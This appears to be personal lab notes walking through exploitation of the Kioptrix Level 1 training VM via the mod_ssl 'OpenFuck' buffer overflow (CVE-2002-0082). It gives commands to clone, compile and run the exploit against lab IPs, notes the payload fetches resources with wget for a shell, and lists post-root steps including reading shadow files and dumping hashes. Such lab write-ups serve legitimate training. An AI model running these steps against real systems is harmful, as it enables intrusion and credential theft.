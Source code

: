 ***Exploit HTTP HTTPS***

**Exploit kioptrix level 1**

ATTACKING HTTP/HTTPS
<br/>
From enumeration<br/>
<br/>
port 80/443<br/>
80/tcp  open http    Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)<br/>
<b>mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</b><br/>
<br/>
Google &gt; <b>mod_ssl/2.8.4</b>exploit<br/>
exploit DB<br/>
https://www.exploit-db.com/exploits/764<br/>
<br/>
Github alternate <br/>
https://github.com/heltonWernik/OpenLuck<br/>
<br/>
Google &gt; Apache httpd 1.3.20 exploit<br/>
exploit DB<br/>
https://www.exploit-db.com/exploits/19975<br/>
<br/>
<br/>
MANUAL EXPLOITATION OPENF*CK<br/>
<br/>
during enum &gt; we discovered taht the system is potentially vulnerable to OPENFUCK<br/>
<br/>
The exploit DB explopit is currently broken. As stated the github alternate is curerntly fixed.<br/>
<br/>
Navigate to the github repo and follow instructions to install<br/>
<br/>
https://github.com/heltonWernik/OpenLuck<br/>
<br/>
<br/>
OpenLuck<br/>
<br/>
Original is OpenFu*&amp;%$#, I change for something more elegant<br/>
Usage<br/>
<br/>
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated<br/>
<br/>
  Download OpenFuck.c<br/>
<br/>
git clone https://github.com/heltonWernik/OpenFuck.git<br/>
<br/>
  Install ssl-dev library<br/>
<br/>
apt-get install libssl-dev<br/>
<br/>
  It's Compile Time<br/>
<br/>
gcc -o OpenFuck OpenFuck.c -lcrypto<br/>
<br/>
  Running the Exploit<br/>
<br/>
./OpenFuck<br/>
<br/>
  See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option ./OpenFuck 0x6a [Target Ip] [port] -c 40<br/>
<br/>
for example:<br/>
<br/>
./OpenFuck 0x6a 192.168.80.145 443 -c 40<br/>
<br/>
<br/>
<br/>
Becuase the victim is running apache 1.3.20 and redhat linux we can try offset 0x6b<br/>
<br/>
syntax &gt; ./open &lt;target ip&gt; [port] [-c number]<br/>
<br/>
./open 192.168.247.129 -c 40<br/>
<br/>
creates a shell gets some resources from internet through wget.<br/>
<br/>
success. If failed try alternate offset.<br/>
<br/>
When have root always<br/>
whoami<br/>
hostname<br/>
check IP<br/>
route table<br/>
arp table<br/>
look for password and shadow file<br/>
hash dump<br/>
